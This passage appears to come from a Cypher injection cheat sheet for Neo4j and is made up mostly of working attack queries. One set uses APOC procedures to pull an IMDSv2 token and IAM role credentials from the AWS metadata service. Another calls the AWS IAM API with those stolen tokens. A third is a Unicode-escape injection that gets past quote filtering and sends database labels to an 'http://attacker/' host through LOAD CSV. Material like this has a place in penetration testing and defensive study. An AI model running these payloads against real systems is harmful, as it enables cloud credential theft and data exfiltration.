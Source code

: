 ```sql
CALL apoc.load.csvParams("http://169.254.169.254/latest/api/token", {method: "PUT",`X-aws-ec2-metadata-token-ttl-seconds`:21600},"",{header:FALSE}) yield list WITH list[0] as token 

CALL apoc.load.csvParams("http://169.254.169.254/latest/meta-data/iam/security-credentials/", { `X-aws-ec2-metadata-token`:token},null,{header:FALSE}) yield list UNWIND list as role  

CALL apoc.load.jsonParams("http://169.254.169.254/latest/meta-data/iam/security-credentials/"+role,{ `X-aws-ec2-metadata-token`:token },null,"") yield value as value 
```

**Note:** the last two requests are both GET. In order to successfully fire a GET request using apoc.load.*Params, we must not specify a method.

**Note:** procedure apoc.load.csvParams was moved to APOC extended in Neo4j 5.

### Calling commands

It is possible to call AWS commands directly from the Neo4j instance.

AWS uses an XML-based API to perform commands and retrieve information. While there is no apoc.load.xmlParams, it is possible to use apoc.load.csvParams to retrieve XMLs. By changing all the special characters to binary characters that will never show up in a valid xml, we can specify headers and the method and retrieve XMLs.

```sql
CALL apoc.load.csvParams('https://iam.amazonaws.com/?Action=ListUsers&Version=2010-05-08', {`X-Amz-Date`:$date, `Authorization`: $signed_token, `X-Amz-Security-Token`:$token}, null, ) YIELD list 
```

- $data is formatted as %Y%m%dT%H%M%SZ
- $token is the token we got from the metadata server
- $signed_token is calculated according to https://docs.aws.amazon.com/general/latest/gr/signing_aws_api_requests.html

## Tricks

### Unicode injection

In Neo4j >= v4.2.0, it's often possible to inject Unicode using “\uXXXX”. For example, you can use this method if the server tries to remove characters such as: ‘, “, ` and so on.

This may not work if a letter follows the Unicode escape sequence. It's safe to add a space afterward or another Unicode notation.

This is often useful when there's a WAF. But there are other cases, in which this feature enables exploitation. For example, if the server removes single quotes, and the query looks like the following:

```sql
MATCH (a: {name: '$INPUT'}) RETURN a 
```

It is possible to inject:

```sql
\u0027 }) RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM "http://attacker/ "+ label RETURN 0 as _o // 
```

